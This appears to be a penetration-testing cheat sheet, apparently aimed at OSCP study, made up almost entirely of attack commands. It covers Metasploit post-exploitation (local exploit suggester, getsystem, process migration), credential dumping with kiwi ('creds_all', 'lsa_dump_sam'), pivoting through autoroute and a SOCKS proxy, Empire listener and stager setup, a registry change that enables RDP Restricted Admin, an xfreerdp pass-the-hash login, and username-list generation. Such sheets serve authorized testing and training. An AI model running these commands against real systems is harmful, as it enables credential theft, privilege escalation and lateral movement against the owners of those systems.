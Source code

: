 ```bash
sessions -i 1

# exploit suggest
use post/multi/recon/local_exploit_suggester

# privesc 
getsystem
migrate 

load kiwi
creds_all
lsa_dump_sam

# Port Forwading
use multi/manage/autoroute

use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
jobs

# other
lcd /home/kali/Downloads
lpwd
download 
upload
```

## Empire
```bash
# first
listeners
uselistener http

usestager windows_launcher_vbs
usestager windows_cmd_exec

agents
interact
```

## RDP admin
```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

xfreerdp /v: /u:administrator /pth: /dynamic-resolution /drive:.,linux /bpp:8 /compression /audio-mode:0 -themes -wallpaper
```

## User-Name-List
https://github.com/urbanadventurer/username-anarchy
```
git clone https://github.com/urbanadventurer/username-anarchy

./username-anarchy Bill Gates > bill.txt
./username-anarchy --input-file ../full-name.txt > unames.txt
```

## sheet
https://github.com/0xsyr0/OSCP
